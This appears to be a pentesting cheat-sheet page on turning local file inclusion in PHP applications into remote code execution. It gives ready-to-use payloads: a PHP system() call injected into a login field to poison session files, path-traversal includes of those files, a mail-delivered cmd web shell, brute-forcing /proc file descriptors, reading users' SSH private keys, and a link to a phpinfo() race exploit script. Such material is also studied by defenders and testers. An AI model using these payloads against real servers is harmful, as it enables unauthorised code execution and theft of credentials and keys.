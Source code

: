 # LFI to RCE

### Php sessions method <a href="php-sessions-method" id="php-sessions-method"></a>

```bash
#Check if the website use PHP
SESSIDSet-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Tue, 30-Jun-2020 10:25:29 GMT; path=/; httponly

​#In php sessions are store into /var/lib/php5/sess_PHPSESSID files
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";​

#Set the cookie to <?php system("whoami"); ?>
login=1&user=<?php system("whoami");?>&pass=password&lang=en_us.php​

#Use the LFI to include the PHP session file
login=1&user=admin&pass=password&lang=/../../../../../../../../../var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm2​
```

### Email method <a href="email-method" id="email-method"></a>

```bash
#Send a mail to internal account (user@localhost) containing:
<?php echo system($_REQUEST["cmd"]); ?>
#Access to the mail (/var/mail/USER&cmd=whoami)
```

### /proc/\*/fd/\* method <a href="proc-fd-method" id="proc-fd-method"></a>

```bash
#Upload a lot of shells
http://web.com/index.php?page=/proc/$PID/fd/$FD
#$PID = PID of the proccess (can be bruteforced)
#$FD = filedescriptor (can be bruteforced)
```

### Ssh method <a href="ssh-method" id="ssh-method"></a>

```bash
#Check which user is being used (/proc/self/status - /etc/passwd)
/home/hax0r/.ssh/id_rsa #hax0r = User is being used
```

### Phpinfo() method <a href="phpinfo-method" id="phpinfo-method"></a>

To exploit this you need: page where phpinfo() is displayed, "file\_uploads=on" and the server has to be able to write in "/tmp" directory.

{% embed url="https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/File%20Inclusion/phpinfolfi.py" %}
Script to exploit Phpinfo() method
{% endembed %}

